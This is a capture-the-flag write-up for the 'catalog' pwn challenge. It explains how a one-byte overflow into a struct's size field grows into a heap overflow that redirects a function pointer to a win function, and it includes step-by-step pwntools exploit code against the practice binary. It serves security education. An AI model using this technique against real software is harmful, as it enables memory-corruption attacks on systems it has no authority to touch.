

# catalog
## slopey | 1/3/2021

TL;DR: 1 byte overflow into size field, increase size and overwrite function pointer

## Background

We are given a simple name tracking utility.
```
[slopey@mariner Catalog]$ ./catalog
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 1
name: asdf
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 2
index: 0
name: dog
Menu:
 1. Write name
 2. Edit name
 3. Print name
 0. Exit
> 3
index: 0
name: dog
```
Let's check the securities:
```
[slopey@mariner Catalog]$ checksec catalog
[*] 'catalog'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Reversing

First, in the `write_name` function, we can identify the struct that is being used to keep track of names. It should look like this:

| Type               | Variable   | Size
|--------------------|------------|-----
| char[0x20]         | name       | 0x20
| long               | size       | 0x8
| (void \*)(char \*) | print_name | 0x8

### write_name



The write name function simply iterates through the global catalog array until it finds an empty spot and places a struct pointer there. There are two vulnerabilities here:
1. **Global buffer overflow:** We can trigger an array out of bounds write, since there is no bounding check if the empty spot is outside of the array.
2. **One-byte overflow:** strlen returns 0x21 if the name buffer is full instead of 0x20. We will discuss this further in the exploitation section.

### edit_name


The edit name function read `size` bytes into the name buffer. It is a very simple function, but this is the crux of our exploitation.

## Exploitation
Let's further analyze the two vulnerabilities we found in reversing. The first vulnerability, the global buffer overflow, is a red herring and is absolutely useless for exploitation. This is because the GOT table exists before the BSS section, where global variables are stored, so we cannot overwrite the GOT table. Furthermore, we can't write into heap addresses either since ASLR is enabled, meaning there is going to be a large gap between the BSS and heap section where we don't have write permissions.

The one-byte overflow is a much more suitable target. First, let's understand why it exists. Consider the structure of the Name struct as presented above. strlen iterates across a char pointer until it comes across a null byte. Now consider a case where the name buffer is full. Since `read` doesn't terminate strings with a null byte, strlen will keep searching *beyond* the name buffer, into the size field. The size field will only be one byte (0x20), so strlen will actually return 0x21 bytes. This gives us a 1 byte overflow into the size field, which we can use to modify the size of the name struct to a much larger size, escalating our 1 byte overflow into a massive heap overflow, which we can then use to modify the print_name pointer to the win function. Simply printing the name will give us the flag.

## Code
First, let's allocate a 0x20 size name buffer. Note that a newline is appended after the As, so it is actually 0x20 bytes.
```py
r.recvuntil("> ")
r.sendline("1")
r.recvuntil("name: ")
r.sendline("A" * 0x1f)
```
Next, let's overflow the size field. Keep in mind that I use a buffering trick here to avoid writing a newline character into the size field. Since at the beginning the program is defined with full buffering, we can simply supply 0x20 bytes, plus "2". 2 gets buffered since the read call only reads in 0x20 bytes, and later, when the program returns to the main function and asks the user for a selection, 2 is flushed from the buffer.
```py
r.recvuntil("> ")
r.sendline("2")
r.recvuntil("index: ")
r.sendline("0")
r.recvuntil("name: ")
# 2 is buffer to stdin so newline isn't read into the name field
r.sendline(b"A" * 0x20 + p8(0xff) + b"2")
```
Now, we can simply call edit again on the name struct and overflow the function pointer.
```py
r.recvuntil("index: ")
r.sendline("0")
r.recvuntil("name: ")
payload = b"A" * 0x20              # name buffer
payload += b"A" * 0x8              # size
payload += p64(exe.symbols["win"]) # print_name func
r.sendline(payload)
```
Next, let's print the buffer, which will call the function pointer.
```

r.recvuntil("> ")
r.sendline("3")
r.recvuntil("index: ")
r.sendline("0")
log.success(r.recvline().strip().decode())
```
And we get our flag!
